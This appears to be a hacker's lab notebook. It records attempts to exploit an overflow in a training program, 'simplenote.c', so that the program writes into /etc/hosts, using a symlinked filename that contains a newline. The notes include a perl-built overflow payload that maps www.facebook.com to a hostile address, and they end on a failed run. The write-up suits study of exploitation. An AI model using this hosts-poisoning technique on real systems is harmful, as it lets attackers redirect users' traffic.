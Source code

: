 ```
-rw-------  1 rad  rad   369 Sep 16 20:18 notes?
```
IT IS MAKING NEW FILES WITH NAME+NEWLINE. Okay, gotta get around that somehow.
`man strncat`
strncat overwrites the terminating nullbyte of the dest string with the first character of the src string, then null-terminates dest+src. Hmm. So I can't just add a null byte to the end of my exploit string.
Idea: symlink one of these files with newlines in the name to the file I actually want to write to. This requires that you can do other stuff on the box, aren't just feeding a string to the program from somewhere. Well, it's worth a try.

When you create a symlink, the link name can't exist, so I can't just link one of my existing newliney files to /etc/hosts.
`ln -s /etc/hosts /tmp/test\n` creates a file called testn.
`ln -s /etc/hosts /tmp/test\\n` creates a file called test\n.
This all makes sense, didn't expect \n to create ACSII '\n' (0x0A) but it was good to confirm. However, I can use perl to print byte values. But when I try to print a newline into the link name, it just prints an actual newline. Hmm. Maybe have to write a little C program to create this link.

First attempt (sans includes, main signature):
`system("ln -s /etc/hosts /tmp/test\n");`
Nope. Creates /tmp/test, no newline. (Aside: wtf am I doing? Is this a transferrable skill? Creating filenames that include unprintable characters? Specifically symlink names, since my attempts to exploit simplenote.c have already successfully created filenames with unprintable characters. Another approach would be to somehow turn existing files into symlinks.)

Actually, gonna try that, making symlinks from existing files, because I suspect no matter how I construct the string I pass to system(), it'll say lick my ass to my newline. Since they're all character arrays, and I already passed it a character array with a newline at the end. Time to inspect the options to ln more thoroughly.

Looks like -f is the option I want:
```
       -f, --force
              remove existing destination files
```
Testing:
```
ln -s /etc/hosts /tmp/hosts
ln -sf /etc/hosts /tmp/hosts
```
Aha! No 'file exists' error.
Fun find:
```
ln -s /etc/hosts /tmp/hosts? 
ln: failed to create symbolic link '/tmp/hosts'$'\n': File exists
```
Maybe I can print unprintable characters in the shell using $'<escape sequence>'. But it seems I can also conveniently refer to that file using a question mark at the end.
```
ln -sf /etc/hosts /tmp/hosts? 
ln: cannot remove '/tmp/hosts'$'\n': Operation not permitted
```
??? Oh, owned by root. Must've been created the one time I tried with sudo. Let's try with /tmp/notes?, owned by rad.
```
ln -sf /etc/hosts /tmp/notes?
ls -l /tmp/notes?
lrwxrwxrwx 1 rad rad 10 Sep 16 23:17 /tmp/notes? -> /etc/hosts
```
BAM! How's that for a workaround?
```
sudo ./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/tmp/notes"')"
[DEBUG] buffer   @ 0x55c2e1a56010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/notes'
[DEBUG] datafile @ 0x55c2e1a56080: '/tmp/notes'
[!!] Fatal Error in main() while opening file: Permission denied
```
